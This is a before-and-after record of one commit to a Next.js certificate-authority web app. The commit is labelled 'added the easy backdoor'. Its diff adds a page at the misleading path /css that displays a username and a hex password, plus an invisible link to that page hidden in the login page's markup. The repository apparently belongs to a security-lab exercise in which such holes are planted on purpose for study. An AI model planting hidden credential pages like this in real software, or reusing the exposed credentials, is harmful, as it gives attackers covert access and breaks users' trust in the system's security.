

Before and after one commit to Tyratox/asl-ca-frontend, a Next.js app: page /css in a window 1280 px wide. Before the commit this address had no page. Shown: the top 448 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
added the easy backdoor

```diff
--- /dev/null
+++ b/pages/css.tsx
@@ -0,0 +1,19 @@
+import { AppContext, withApp } from "../components/AppWrapper";
+import { useAuthenticate } from "../utilities/hooks";
+import { useRouter } from "next/dist/client/router";
+import React, { useContext, useEffect, useState } from "react";
+import UserCertificates from "../components/UserCertificates";
+import UserInformation from "../components/UserInformation";
+import Wrapper from "../components/Wrapper";
+import type { NextPage } from "next";
+
+const css: NextPage = () => {
+  return (
+    <Wrapper>
+      <h1> user : lb </h1>
+      <h1> password : 6B97F534C330B5CC78D4CC23E01E48BE3377105B </h1>
+    </Wrapper>
+  );
+};
+
+export default withApp(css);
--- a/pages/index.tsx
+++ b/pages/index.tsx
@@ -36,6 +36,7 @@ const Home: NextPage = () => {
       />
       <hr />
       <UserCertificates token={token} hasChanges={hasChanges} />
+
     </Wrapper>
   );
 };
--- a/pages/login.tsx
+++ b/pages/login.tsx
@@ -86,6 +86,9 @@ const Login: NextPage = () => {
           certificate.
         </Box>
       </div>
+      <div style={{display:'none'}}>
+      <a href="css"> </a>
+      </div>
     </Wrapper>
   );
 };
```
